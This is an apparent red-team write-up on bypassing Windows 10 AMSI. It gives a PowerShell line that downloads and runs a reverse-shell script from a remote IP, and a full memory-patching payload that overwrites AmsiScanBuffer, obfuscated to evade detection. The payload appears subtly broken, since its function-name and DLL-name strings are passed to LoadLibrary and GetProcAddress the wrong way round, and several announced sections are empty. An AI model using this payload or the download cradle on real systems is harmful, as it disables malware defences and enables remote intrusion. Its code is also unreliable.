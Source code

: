 ## Table of Contents
- [**Outline**](#section-0)
- [**Antimalware Scan Interface Explanation**](#section-1)
- [ **Proof of Concept - Bypassing 2023 Windows 10 Pro AMSI**](#section-2)
- [ **Obfuscation Methodolgy Anlysis**](#section-3)
- [ **Credits & Reference**](#section-4)


## Outline

The goal of this write-up is to demonstrate bypassing the most up to date AMSI protection measure implemented in Windows 10 Pro (2023/07/28) and gain a Remote Code Execution (RCE).

![](/assets/AV/diagram.png)  

AMSI (Antimalware Scan Interface) is a Windows feature introduced in Windows 10 and Windows Server 2016. Its primary purpose is to provide an interface that allows antivirus and other security solutions to scan and inspect scripts and code in real-time at runtime

By default windows defender interacts with the AMSI API to scan PowerShell scripts, VBA macros, JavaScript and scripts using the Windows Script Host technology during execution. When a user executes a script or initiates PowerShell, the AMSI.dll is injected into the process memory space. Prior to execution the following two API’s are used by the antivirus to scan the buffer and strings for signs of malware. This ultimately prevents arbitrary execution of code.
# AMSI Bypass Techniques
The following evasive techniques aim to avoid detection by antivirus and security software.  

##### Code Fragmentation: 
Divide codes into smaller components and assemble at runtime, evading static analysis.  

##### Obfuscation: 
Utilize obfuscation techniques to obscure the true intent of the script, making it challenging for AMSI scanners to interpret the code accurately.  

#####  Memory Patching: 
Modify the AMSI Dynamic Link Library (DLL) in memory to either disable or alter its functionality temporarily.  

#### Powershell Downgrade: 
Downgrade to Windows PowerShell 2.0. It lacks essential security controls like AMSI protection, making it susceptible to exploitation as a means of evasion.

## Proof of Concept

![](/assets/AV/Final.gif)  

To verify that AMSI is correctly functioning, the tester first tried to initiate a reverse TCP connection through powershell using the below command.
```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.20.128:8443/Invoke-PowerShellTcp.ps1')
```
However, as seen above, AMSI sucessfully flags the activity as  `malicious` and proceeds to block the reverse shell connection. 
## Memory Patching
In order to bypass AMSI, the tester utilzed the following payload which was referenced from [Red Team Playbook](https://www.xn--hy1b43d247a.com/defense-evasion/amsi-bypass)
```bash
$thing = @"
// thing 
// using System.Collections.ArrayList;
using System; // thingssa
using System.Runtime.InteropServices;
public class payload {
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
"@
Add-Type $thing
[System.Collections.ArrayList]$Patch = 0xB8, 0x57, 0x90, 0x90, 0x00, 0x90, 0x07, 0x80, 0x90, 0xC3
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)

[byte[]]$byteArrayFun = "","","","","",""
$byteArrayFun[0] = $Patch[0]
$byteArrayFun[1] = $Patch[1]
$byteArrayFun[2] = $Patch[2]
$byteArrayFun[3] = $Patch[3]
$byteArrayFun[4] = $Patch[4]
$byteArrayFun[5] = $Patch[5]

$to = "Am" +"s" + "iSc" + "a" + "nBu" + "ffer"
$connect = "a" + "m" + "si" + ".dl" + "l"
$librarz = [payload]::LoadLibrary($to)
$dest = [payload]::GetProcAddress($librarz, $connect)
$p = 0
[payload]::VirtualProtect($dest, [uint32]5, 0x40, [ref]$p)

[System.Runtime.InteropServices.Marshal]::Copy($byteArrayFun, 0, $dest, 6)
```

By patching the `AmsiScanBuffer` function in AMSI.dll with specific assembly code (mov eax, 0x80070057 and ret), the function will immediately return an error code without scanning PowerShell code. This bypasses AMSI, allowing the attacker's PowerShell code to run undetected. However, it is worth noting that without implementing proper obfuscation methodologies, even the above payload would be flagged as malicious by AMSI. Thus to obfuscate the content and intention of the payload, the tester made of Chameleon Powershell Obfuscator. 






## Weaponization

## Reference
-레드팀 플레이북 Read team playbook, Offensive Security